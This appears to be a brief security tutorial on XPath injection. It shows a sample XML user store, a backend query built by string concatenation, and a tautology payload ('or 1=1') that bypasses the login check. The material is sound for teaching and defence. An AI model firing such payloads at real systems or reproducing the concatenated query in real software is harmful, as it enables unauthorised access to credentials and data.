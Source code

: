# XPath Injection

When data is stored as XML, it can be queried using a string which is called the XPATH. XPath injection is a type of attack where user input is accepted as Xpath. A a malicious input can lead to un-authorised access or exposure of sensitive information such as the structure or content of XML document.

> Attacks are similar to SQL injection - SQLi attacks SQL data stores while XPathi attacks XML data stores.

Example:
```xml
<?xml version=”1.0" encoding="utf-8"?>
<Employees>
 <Employee ID="1">
    <Name>Sam</Name>
    <UserName>Johns</UserName>
    <Password>This is Secret</Password>
 </Employee>
 <Employee ID="2">
    <Name>Peter</Name>
    <UserName>Pan</UserName>
    <Password>Ssssshh</Password>
 </Employee>
</Employees>
```

Backend Query:
```
//Employee[UserName/text()='" & Request("UserName") & "' And Password/text()='" & Request("Password") & "']
```

Payload:
```
Username : test' or 1=1 or 'a'='a 
Password : test
```

This will make the backend query:
```
//Employee[UserName/text()=   '" & Request("UserName") & " '   And    Password/text()='" & Request("Password") & "']
//Employee[UserName/text()=   'test' or 1=1 or 'a'='a'        And    Password/text()='test']
```

**Resources**
1. [CybersecurityTV Video](https://www.youtube.com/watch?v=rFXDr5KVdAc) - Explains how to test. It is similar to testing SQLi where you supply invalid characters and look for XML related error messages.
2. [Hacktricks payloads](https://book.hacktricks.xyz/pentesting-web/xpath-injection)
3. [Blog for above example](https://medium.com/@shatabda/security-xpath-injection-what-how-3162a0d4033b)
